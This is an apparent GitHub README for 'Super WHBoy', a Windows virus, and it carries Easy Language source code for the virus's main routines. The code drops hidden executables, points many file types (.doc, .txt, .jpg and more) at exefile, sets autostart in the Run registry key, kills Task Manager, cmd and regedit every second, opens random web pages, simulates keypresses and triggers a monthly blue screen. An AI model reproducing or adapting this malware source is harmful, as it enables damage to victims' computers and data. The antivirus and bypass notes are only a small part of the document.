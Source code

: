 Super WHBoy
=
**Project Introduction**  
* This update:
  * Cancel the function of destroying MBR and keep BSOD on the 1st day of each month.
* It is written in easy language and C language.
* There are some files: self starting.e is the program after the virus is added and started; main.e is the main body of the program, which runs only once;Killwhboy.e is the source code of antivirus program;killwhboy.exe Is the compiled antivirus program;unknow:Necessary files for compiling or running virus Ontology.For more information, see wiki.
* Viral behavior:
  * a. Release self boot file and icon file in the root directory of the system; 
  * b. Modify the registry to change the default icon of EXE file to the icon file released under the root directory;
  * c.Destroy the opening mode of some files so that they cannot be opened; 
  * d. Shut down the computer after 10 minutes;
  * e.Open a web page every 18 seconds; 
  * f.Close CMD, tasklist and regedit every 1 second; 
  * g.A warning is sent every 25 seconds.
  * h.The computer will be Blue Screen of Death on the 1st of every month.
  * i.Press five random keys every 30 seconds.
* Detoxification method: first use disk tool to search for the lost partition and recover it, then rebuild the boot record and enter the system, then run the detoxification program. Or contact the author.If it is No.1, please adjust the time under PE or do not use the poisoned computer on the same day.
* The virus also has some vulnerabilities:
>You can call up the file extension through the folder option in the control panel, and change the suffix of CMD, tasklist or regedit to com, so that you can open the program and use it.   
# Main.e  
## Window assembly:  
`.版本 2  `  
`.支持库 eAPI  `  
`.程序集 窗口程序集_启动窗口  `  
`.子程序 __启动窗口_创建完毕  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`' 释放病毒文件  `  
`写到文件 (“C:\icon.ico”, #icon)  `  
`写到文件 (“C:\wrom.exe”, #wrom)  `  
`写到文件 (“C:\img.bmp”, #img)  `  
`置文件属性 (“C:\wrom.exe”, #隐藏文件)  `  
`运行 (“C:\wrom.exe”, 假, )  `  
`' 修改注册表  `  
`写注册项 (#根类, “.lnk\”, “exefile”)  `  
`写注册项 (#根类, “.doc\”, “exefile”)  `  
`写注册项 (#根类, “.docx\”, “exefile”)  `  
`写注册项 (#根类, “.ppt\”, “exefile”)  `  
`写注册项 (#根类, “.pptx\”, “exefile”)  `  
`写注册项 (#根类, “.xls\”, “exefile”)  `  
`写注册项 (#根类, “.xlsx\”, “exefile”)  `  
`写注册项 (#根类, “.png\”, “exefile”)  `  
`设置桌面墙纸 (“C:\img.bmp”, 2)  `  
`' 文件关联2  `  
`写注册项 (#根类, “.jpg\”, “exefile”)  `  
`写注册项 (#根类, “.jpeg\”, “exefile”)  `  
`写注册项 (#根类, “.bmp\”, “exefile”)  `  
`写注册项 (#根类, “.com\”, “exefile”)  `  
`写注册项 (#根类, “.mp3\”, “exefile”)  `  
`写注册项 (#根类, “.mp4\”, “exefile”)  `  
`写注册项 (#根类, “.avi\”, “exefile”)  `  
`写注册项 (#根类, “.mp5\”, “exefile”)  `  
`写注册项 (#根类, “.txt\”, “exefile”)  `  
`写注册项 (#根类, “.bat\”, “exefile”)  `  
`写注册项 (#根类, “.cmd\”, “exefile”)  `  
`写注册项 (#根类, “.vbs\”, “exefile”)  `  
`写注册项 (#根类, “.java\”, “exefile”)  `  
`写注册项 (#根类, “.cpp\”, “exefile”)  `  
`写注册项 (#根类, “exefile\DefaultIcon\”, “C:\icon.ico”)  `  
`' 开机自启动  `  
`写注册项 (#本地机器, “software\microsoft\windows\CurrentVersion\Run\wrom”, “C:\wrom.exe”)  `  
`' 重启资源管理器  `  
`终止进程 (“explorer.exe”)  `  
`运行 (“explorer”, 假, #隐藏窗口)  `  
`信息框 (“Oh?”, 0, “Super WHBoy”, )  `  
`.子程序 _数值增加_周期事件  `  
`BoxNumber ＝ BoxNumber ＋ 1  `  
`.子程序 _自我防护_周期事件  `  
`终止进程 (“taskmgr.exe”)  `  
`终止进程 (“cmd.exe”)  `  
`终止进程 (“regedit.exe”)  `  
## Picture&Program res
`.版本 2`  
`.图片 icon`  
`.图片 wrom`  
`.图片 img` 
# Self Starting.e 
`.版本 2`  
`.子程序 _变卡_周期事件`  
`置随机数种子 ()`  
`超级链接框1.Internet地址 ＝ 到文本 (“www.” ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ 字符 (取随机数 (1, 100)) ＋ “.com”)`  
`超级链接框1.跳转 ()`  
**And Blue screen: **   
`.版本 2  `  
`.子程序 _时钟1_周期事件  `  
`编辑框1.内容 ＝ 到文本 (取现行时间 ())  `  
`.判断开始 (寻找文本 (编辑框1.内容, “1日”, , 假) ＞ 0)  `  
    `系统_蓝屏 ()  `  
**Pop up windows and buttons:**  
`.版本 2`  
`.支持库 eAPI`  
`.子程序 _警告弹窗_周期事件`  
`信息框 (“Your computer is poisoned!”, #错误图标, “Super WHBoy”, )`  
`.子程序 _按键事件_周期事件`  
`置随机数种子 ()`  
`.计次循环首 (5, )`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)))`  
    `模拟按键 (字符 (取随机数 (65, 90)), 字符 (取随机数 (65, 90)), )`  
`.计次循环尾 ()`  
![avatar](/error.png)
